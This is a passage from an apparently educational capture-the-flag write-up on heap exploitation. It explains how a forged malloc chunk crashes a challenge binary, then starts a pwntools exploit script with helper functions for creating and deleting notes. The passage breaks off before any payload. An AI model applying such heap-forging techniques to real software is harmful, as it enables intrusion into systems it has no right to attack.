 Actually attempting to allocate another chunk will cause the program to segfault, since `0x4141414141414141` is not a valid memory address.

![](/Assets/Pasted%20image%2020241005114144.png)

This segfault is actually good, since it means that malloc is attempting to allocate our forged chunk.

It is at this point that it would be good to start writing an exploit script, since it will soon become necessary to deal with non-printable characters, and because it makes it easy to translate the exploit to the remote device. To do this, we will use the `pwntools` Python library.

Firstly, our exploit needs to load the target binary and run it.
The code below handles loading the binary into memory, and then starting it and attaching to its stdin/stdout.
```python
from pwn import process, ELF, p64, PTY

target = ELF("./chal")
io = process(target.path, stdin=PTY, stdout=PTY)
```

Then, we will define some wrapper functions for creating and deleting chunks.

```python
def create_note(data: bytes):
	io.recvuntil(b'> ')
	io.sendline(b'2')
	io.recvuntil(b': ')
	io.sendline(data)

def delete_note(index: int):
	io.recvuntil(b'> ')
	io.sendline(b'4')
	io.recvuntil(b': ')
	io.sendline(str(index).encode('utf-8'))

def exit_program():
	io.recvuntil(b'> ')
	io.sendline(b'5')
```

These simply wait for the menu prompt `> ` to be send, and then send the correct inputs for creating or deleting a note respectively, or exiting the program.
